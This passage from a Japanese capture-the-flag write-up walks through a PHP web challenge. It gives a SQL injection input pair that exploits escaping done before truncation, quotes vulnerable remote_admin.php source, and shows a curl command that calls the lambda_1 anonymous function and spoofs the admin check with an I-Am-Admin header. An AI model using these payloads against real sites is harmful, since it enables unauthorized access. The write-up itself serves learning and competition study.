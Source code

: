 ```php
  return $tocheck;
}
︙
```

ユーザ入力を `real_escape_string` でエスケープした後、もし 12 文字以上であれば 11 文字まで切り詰めています。エスケープ後に切り詰められるという順番なので、例えば `aaaaaaaaaa'` を入力すると `aaaaaaaaaa\'` のようにエスケープされ、11 文字に切り詰められると `aaaaaaaaaa\` になります。これを利用すれば SQLi ができるはずです。

ユーザ名に `aaaaaaaaaa'`、パスワードに `or 1;#` を入力するとログインできましたが、`Sorry, It seems you are not Admin...are you? If yes, proove it then !!` と表示されました。こちらもソースコード (`remote_admin.php`) を確認しましょう。

```php
<?php

include "functions.php";
session_start();

is_login();

# If admin wants to open his website remotely

$remote_admin = create_function("",'if(isset($_SERVER["HTTP_I_AM_ADMIN"])){$_SERVER["REMOTE_ADDR"] = $_SERVER["HTTP_I_AM_ADMIN"];}');

$random = bin2hex(openssl_random_pseudo_bytes(32));

eval("function admin_$random() {"
  ."global \$remote_admin; \$remote_admin();"
  ."}");

send($random);

$_GET['random']();    //Only Admin knows next random value; You don't have to worry about HOW?

if($_SERVER['REMOTE_ADDR']=="127.0.0.1"){
  $_SESSION['admin'] = "True";
}


?>
```

`admin_(ランダムな文字列)` を推測できれば `$_SERVER["REMOTE_ADDR"]` を `$_SERVER["HTTP_I_AM_ADMIN"]` (`X-I-Am-Admin` ヘッダの値) に書き換えることができるようです。

このコードを見て思い出すのは HITCON CTF 2017 Quals で出題された [Baby^H Master PHP 2017](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017) です。`curl http://(省略)/remote_admin.php?random=%00lambda_1 -b "PHPSESSID=(セッション ID)" -H "I-Am-Admin: 127.0.0.1"` で admin になることができました。

これで `admin.php` にアクセスすることができるようになりました。`admin.php` `upload.php` は以下のような内容でした。

`admin.php`
